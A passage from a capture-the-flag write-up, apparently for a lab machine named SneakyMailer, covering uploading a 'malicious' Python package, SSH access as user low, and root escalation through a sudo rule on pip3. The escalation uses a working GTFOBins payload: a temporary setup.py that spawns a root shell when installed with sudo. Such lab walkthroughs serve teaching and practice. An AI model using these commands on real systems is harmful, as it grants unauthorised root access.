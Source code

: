 ```
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
)
```
And we can run the command:
```
python setup.py sdist bdist_wheel
```
Then after that command is done we can upload our malicious package using the command inside the same directory as the `setup.py` file:
```
python -m twine upload --repository testpypi dist/*
```
If you don't have twine module installed install it using:
```
pip install twine
```
And after that is done we can try to ssh into user low
```
ssh -i <private key> low@10.10.10.197
```
And we successfully owned the user low!

## Privilege Escalation

On the box as user low, we run our basic enumeration, we could run [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) script and we could find that running `sudo -l` we can run certain command as root. But we could also manually just run `sudo -l` and see that also. When running that command we get the following:
```
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```
That is telling us that we can run `/usr/bin/pip3` as root and we don't need the root password to run the command. So we can go over to [GTFObins](https://gtfobins.github.io/) and search for `pip`, there we can see there is a way to get a shell, so we copy the first two commands and we edit the third one:
```
sudo /usr/bin/pip3 install $TF
```
So the three commands we need to run are:
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip3 install $TF
```
And just like that we get a shell as root!
